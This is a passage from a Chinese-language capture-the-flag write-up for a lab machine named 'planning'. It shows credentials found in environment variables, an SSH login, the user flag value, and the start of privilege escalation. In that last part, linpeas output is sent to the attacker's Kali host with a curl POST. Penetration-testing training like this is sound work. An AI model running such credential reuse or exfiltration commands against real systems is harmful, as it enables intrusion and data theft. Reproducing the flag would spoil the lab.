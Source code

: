 ```
SHLVL=1
_=/usr/bin/bash
_=/usr/bin/cat
_=/usr/bin/dd
_=/usr/bin/grep
_=/usr/bin/sh
_=/usr/bin/tr
```
---
发现环境变量里存在ADMIN用户凭据`enzo/RioTecRANDEntANT!`

尝试SSH登录：
```bash
ssh enzo@10.10.11.68
enzo@10.10.11.68's password: 
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-59-generic x86_64)
enzo@planning:~$ whoami
enzo
```
***获取USER_FLAG***

```bash
enzo@planning:~$ cat user.txt
6beb5a1d79a1aafbd6ff92f505d9f2d7

enzo@planning:/tmp$ id
uid=1000(enzo) gid=1000(enzo) groups=1000(enzo)
```
无法获取root的flag

## 进行提权

- **反向传linpeas分析结果到Kali**

在 Kali开python3服务接收上传
```bash
┌──(root㉿kali)-[/home/kali/Desktop]
└─# apt install pipx
pipx 已经是最新版 (1.7.1-1)。

┌──(root㉿kali)-[/home/kali/Desktop]
└─# pipx install uploadserver
  installed package uploadserver 6.0.0, installed using Python 3.13.2
  These apps are now globally available
    - uploadserver

┌──(root㉿kali)-[/home/kali/Desktop]
└─# ~/.local/bin/uploadserver
File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

在靶机上将linpeas.sh保存为文件并POST上传到Kali
```bash
enzo@planning:~$ ./linpeas.sh | tee linpeas_output.txt

enzo@planning:~$ curl -X POST http://10.10.16.18:8000/upload -F 'files=@linpeas_output.txt'
```
